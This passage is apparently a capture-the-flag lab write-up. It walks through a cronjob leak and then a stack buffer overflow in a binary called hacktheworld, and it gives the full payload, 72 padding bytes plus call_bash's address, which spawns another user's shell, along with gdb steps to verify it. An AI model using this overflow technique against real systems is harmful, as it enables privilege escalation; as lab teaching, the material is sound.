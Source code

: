This function just prints some strings. setuid(0x539) changes the suid to user spooky(*spooky uid is 1337*) so when /bin/sh is called, we get user spooky’s shell.

Also, call_bash is not called in the main function. So I thought we need to call the call_bash function using buffer overflow attack and get a shell.

On enumerating the machine, we can find a cronjob running

![](https://cdn-images-1.medium.com/max/2000/1*yX_ZDfmXO42vBUKuCldEXg.png)

The highlighted line first changes the directory to /home/spooky and creates a tar of the files in that directory. Downloaded and extracted the file to get the second flag.

![](https://cdn-images-1.medium.com/max/2000/1*2sRACuKlSslK-mw9N3P0wg.png)

## Buffer overflow

On analyzing the binary with **checksec**,

![](https://cdn-images-1.medium.com/max/2000/1*7EHxzu_W-5OYSED0RdOFRw.png)

Since NX is enabled, we cannot execute shellcode in the stack. So a possible option will be to call the call_bash function.

On analyzing the binary, we can get the offset at 72 bytes.

![](https://cdn-images-1.medium.com/max/2000/1*pLkSv9Ely5bPnu6ss4R2eQ.png)

Now we need to find the address of call_bash function and replace it with BBBB. So that RIP is replaced by call_bash function’s address as a result, the call_bash function is called.

![](https://cdn-images-1.medium.com/max/2000/1*wOl0rSfb68bNKQCIg63HQA.png)

So our payload will be

    $ python -c "print 'A'*72+'\x57\x06\x40\x00\x00\x00\x00\x00'" | ./hacktheworld

![](https://cdn-images-1.medium.com/max/2000/1*5D9R3D9grXMS7O3Ik3xhxw.png)

In order to check if the system(“/bin/sh”) is executed or not, I checked using gdb.

    $ python -c "print 'A'*72+'\x57\x06\x40\x00\x00\x00\x00\x00'" > ro
    #Store the exploit is a file
    $ gdb ./hacktheworld    # run gdb
    (gdb) break call_bash   # set breakpoint call_bash function
    (gdb) run < ro          # run the program with the input from ro

The breakpoint hits

    Starting program: /home/magna/hacktheworld < ro
    Breakpoint 1, 0x000000000040065b in call_bash ()

Now let's disassemble the function and set the breakpoint on the system function.

![](https://cdn-images-1.medium.com/max/2000/1*U5hqokkd-9lUtL9nnIFjsQ.png)
